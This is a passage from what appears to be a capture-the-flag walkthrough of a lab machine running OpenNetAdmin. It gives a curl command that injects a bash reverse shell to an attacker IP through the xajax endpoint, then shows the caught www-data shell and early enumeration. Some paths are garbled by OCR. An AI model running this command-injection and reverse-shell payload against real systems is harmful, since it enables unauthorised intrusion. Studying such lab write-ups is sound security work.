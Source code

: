 

    root@kali# curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.14.11/443 0>%261'&xajaxargs[]=ping"  http
    ://10.10.10.171/ona/



It hangs, but in my `nc` listener, I've got a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.171.
    Ncat: Connection from 10.10.10.171:40352.
    bash: cannot set terminal process group (1004): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@openadmin:/opt/ona/www$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



## Priv: www-data --\> jimmy

### Enumeration

On the box, I can see two user home directories, but I can't read into
either of them as www-data:



    www-data@openadmin:/home$ ls
    jimmy  joanna      

    www-data@openadmin:/home$ find .
    .
    ./jimmy
    find: './jimmy': Permission denied
    ./joanna
    find: './joanna': Permission denied  



Heading back to `/var/www`, there are three directories:



    www-data@openadmin:/var/www$ ls
   .md  internal  ona   



.md` has the various sites:



    www-data@openadmin:/var/www.md$ ls
    artwork  index.md  marga  music  ona  sierra

